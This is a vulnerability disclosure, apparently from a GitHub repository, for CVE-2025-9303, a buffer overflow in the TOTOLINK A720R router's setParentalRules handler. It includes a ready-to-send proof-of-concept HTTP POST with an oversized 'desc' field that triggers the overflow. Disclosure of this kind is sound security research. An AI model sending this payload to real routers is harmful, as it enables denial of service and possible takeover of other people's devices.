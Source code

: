 # CVE-2025-9303

## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## Information



**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** A720R

**Affected firmware version:** V4.1.5cu.630_B20250509

**Firmware download address:** [TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/203/ids/36.html)

## Overview

A critical buffer overflow vulnerability was found on the TOTOLINK A720R router due to strcpy(dest, src); The failure to perform the necessary boundary checks results in a buffer overflow vulnerability that allows an attacker to perform a denial-of-service attack or even arbitrary command execution by sending malicious HTTP POST packets

## Vulnerability details

When the request path is setParentalRules, the corresponding function sub_41AAD8

![](img/1.png)

It can be found that there is a buffer overflow vulnerability here, but the precondition needs to be met and n2 is equal to 1, that is, the value of addEffect is 1

![](img/2.png)

## POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.1/
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 30 Jun 2023 08:05:46 GMT
If-None-Match: "106164761"
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 378

{"topicurl":"setParentalRules",
"token":"2e2e7715039a8b744b974ba53c27537d"
"addEffect":"1",
"mac":"1234",
"desc":"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac"
}
```

![](img/3.png)

![](img/4.png)